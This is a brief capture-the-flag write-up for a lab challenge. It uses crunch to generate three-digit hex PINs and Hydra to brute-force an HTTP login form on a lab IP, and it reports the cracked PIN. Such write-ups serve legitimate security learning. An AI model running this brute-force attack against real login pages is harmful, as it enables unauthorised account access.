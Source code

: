 # Day 3: Hydra is Coming to Town

The right commands to use are pretty much given in the text. To generate the list of payloads, use:

```
$ crunch 3 3 0123456789ABCDEF -o 3digits.txt
```

And then use Hydra to crack the login page:

```
$ hydra -l '' -P 3digits.txt -f -v 10.10.58.239 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

I got the password `6F5` after about a minute, and used this to log in.

![](flag.png)
